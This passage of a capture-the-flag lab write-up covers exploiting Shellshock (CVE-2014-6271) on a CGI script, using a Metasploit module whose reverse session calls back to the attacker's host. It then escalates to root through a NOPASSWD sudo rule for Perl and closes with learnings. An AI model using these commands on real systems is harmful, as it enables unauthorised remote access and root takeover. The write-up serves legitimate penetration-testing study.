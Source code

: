 1. **Metasploit** 
    
    To validate the manual approach, I replicated the exploit using Metasploit:
    
    
    - Module: `exploit/multi/http/apache_mod_cgi_bash_env_exec`
    
    
    - Configuration:
        
        ```bash
        use exploit/multi/http/apache_mod_cgi_bash_env_exec
        set RHOSTS 10.10.10.56
        set TARGETURI /cgi-bin/user.sh
        set LHOST 10.10.14.5
        set LPORT 4444
        run
        
        ```
        
        
        
        
    - **Result**: A Meterpreter session opened, and the user flag was again retrieved from `/home/shelly/user.txt`.

### Privilege Escalation

With user access secured, I sought root privileges.

1. **Sudo Privileges Check**
    
    Ran `sudo -l` in the shell:
    
    - Output: User "shelly" could run `/usr/bin/perl` as root with NOPASSWD.
2. **Escalation via Perl**
    
    Leveraged Perl’s `-e` flag to spawn a root shell:
    
    ```bash
    sudo /usr/bin/perl -e 'exec "/bin/sh"'
    
    ```
    

**Result**: Obtained a root shell. Retrieved the root flag:

```bash
cat /root/root.txt
```



---

## Learnings

1. **Shellshock Exploitation**
    - Shellshock (CVE-2014-6271) exploits Bash’s mishandling of environment variables, enabling command injection via HTTP headers. This machine demonstrated its real-world impact on CGI scripts.
2. **Enumeration Challenges**
    - Misconfigured web servers (e.g., no trailing slash redirection) can thwart tools like Gobuster unless adjusted (e.g., using `f`). Dirsearch’s flexibility proved advantageous.
3. **Vulnerability Confirmation**
    - Nmap scripts (e.g., `http-shellshock.nse`) are powerful for validating hypotheses before exploitation, saving time and effort.
4. **Manual vs. Automated Exploitation**
    - Manual exploitation with a Python script offered control and understanding, while Metasploit provided speed and reliability—both approaches are valuable depending on context.
5. **Privilege Escalation Simplicity**
    - NOPASSWD sudo permissions are a common misconfiguration, easily exploited with tools like Perl or Bash.

---